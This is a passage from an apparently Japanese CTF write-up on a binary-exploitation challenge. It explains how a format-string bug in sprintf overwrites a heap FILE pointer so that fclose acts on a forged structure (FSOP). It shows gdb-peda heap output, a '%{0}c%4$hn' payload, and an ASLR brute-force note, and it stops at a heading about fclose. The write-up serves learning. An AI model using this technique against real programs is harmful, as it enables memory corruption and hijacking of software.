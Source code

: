 ### Format String Attack

最初に入力する名前を`name`として`sprintf(buf, 0xc, name)`という処理が行われる部分がある。これを利用してファイルディスクリプタのポインタが入っているアドレスを指定して書き換えれば、次の`fclose`で別のポインタを引数にとることが出来る。
ここで直前のHeap領域を覗いてみる
(そういえばWSLってなんでHeapのアドレスが0x55\~, 0x56\~じゃなくて0x7f\~になるんだ...?0x55, 0x56をサイズヘッダとみなすfastbin attackが試せなくて困る)

```
gdb-peda$ parseheap
addr                prev                size                 status              fd                bk                
0x7fffe198a000      0x0                 0x250                Used                None              None
0x7fffe198a250      0x0                 0x190                Used                None              None
0x7fffe198a3e0      0x190               0x190                Used                None              None
0x7fffe198a570      0x0                 0x190                Used                None              None
0x7fffe198a700      0x0                 0x190                Used                None              None
0x7fffe198a890      0x0                 0x190                Used                None              None
0x7fffe198aa20      0x0                 0x190                Used                None              None
0x7fffe198abb0      0x0                 0x190                Used                None              None
0x7fffe198ad40      0x0                 0x190                Used                None              None
0x7fffe198aed0      0x0                 0x190                Used                None              None
0x7fffe198b060      0x0                 0x230                Used                None              None
0x7fffe198b290      0x7fbedbfe7d60      0x210                Used                None              None
gdb-peda$ 
```

0x7fffe198b070に本来のファイルディスクリプタがある、ここを指すポインタ0x7fffe198aee0に変えてしまい、事前に0x7fffe198aee0に偽装したファイル構造体を入れておけば`fclose(fp)`で起こる動作をある程度制御できそうである
というわけでペイロードは`"%{0}c%4$hn".format(0xcee0)`のようになった(0xaee0に書き換えたいのに0xcee0と値が違うのはランダム化のせいでペイロードを設定した時とはアドレスが違うからです)にようになった。`%4$n`の部分はデバッガを覗きながら探した(のとWriteupを見た)
ちなみに、ASLRのせいでHeap領域のアドレスは下位12bitしか確定しない、よって下位2バイトを書き換えるなら4bit分の運試しが発生する(最初は20回ぐらい外しました)

(そういえばこの企画でFSA扱うのこれが初めてでは?あんまり経験が無いのもありますが、実はそこまでFSA問題得意じゃないです)

### FSOP

長くなりそうなので適当に分割する

#### fclose時に起こること
